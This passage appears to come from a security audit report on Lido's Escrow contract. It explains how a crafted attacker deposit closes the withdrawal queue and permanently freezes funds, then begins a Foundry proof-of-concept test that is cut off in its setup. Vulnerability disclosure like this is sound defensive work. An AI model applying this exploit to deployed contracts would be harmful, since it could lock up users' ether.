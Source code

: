 - The `isWithdrawalsBatchesClosed()` function will now always return `true`.
- Any subsequent calls to `requestNextWithdrawalsBatch` will revert because the queue is closed.
- The contract can never reach the `RageQuitExtensionPeriod`, so calling `withdrawETH` will always fail. The `50 ether` is permanently frozen.

### **Runnable PoC Code**

**Environment and Dependencies:**

- **Framework:** Foundry
- **Command:**`forge test --mp test/AttackEscrow_2.t.sol -vvvv`
- **Dependencies:**`forge-std`, `openzeppelin-contracts`

**`test/**AttackEscrow_2**.t.sol`:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

// --- Forge/Foundry Imports ---
import {Test, console} from "../lib/forge-std/src/Test.sol";
import {Clones} from "@openzeppelin/contracts/proxy/Clones.sol";

// --- Lido Contract Imports ---
import {Escrow} from "../contracts/Escrow.sol";
import {EscrowState as EscrowStateLib, State as EscrowState} from "../contracts/libraries/EscrowState.sol";
import {WithdrawalsBatchesQueue} from "../contracts/libraries/WithdrawalsBatchesQueue.sol";
import {Duration, Durations} from "../contracts/types/Duration.sol";
import {IWithdrawalQueue} from "../contracts/interfaces/IWithdrawalQueue.sol";
import {IDualGovernance} from "../contracts/interfaces/IDualGovernance.sol";
import {IStETH} from "../contracts/interfaces/IStETH.sol";
import {IWstETH} from "../contracts/interfaces/IWstETH.sol";

// --- Mock Contract Imports ---
import {StETHMock} from "./mocks/StETHMock.sol";
import {WstETHMock} from "./mocks/WstETHMock.sol";
import {WithdrawalQueueMock} from "./mocks/WithdrawalQueueMock.sol";

// --- OpenZeppelin Imports ---
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract EscrowAttackPoC is Test {
    // --- State Variables ---
    Escrow internal masterCopy;
    Escrow internal escrow; // This is the proxy contract we interact with.
    WithdrawalQueueMock internal withdrawalQueue;
    StETHMock internal stETH;
    WstETHMock internal wstETH;

    // --- Actors & Mock Addresses ---
    address internal immutable attacker = makeAddr("attacker");
    address internal immutable victim = makeAddr("victim");
    address internal immutable dualGovernanceAddress = makeAddr("dualGovernance");

    // --- Config ---
    Duration internal MIN_ASSETS_LOCK_DURATION;
    Duration internal MAX_MIN_ASSETS_LOCK_DURATION;

    // Attacker deposits an amount crafted to become dust.
    uint256 constant ATTACKER_DEPOSIT_AMOUNT = 50 ether;
    // Victim deposits a larger amount.
    uint256 constant VICTIM_DEPOSIT_AMOUNT = 2000 ether;

    function setUp() public {
```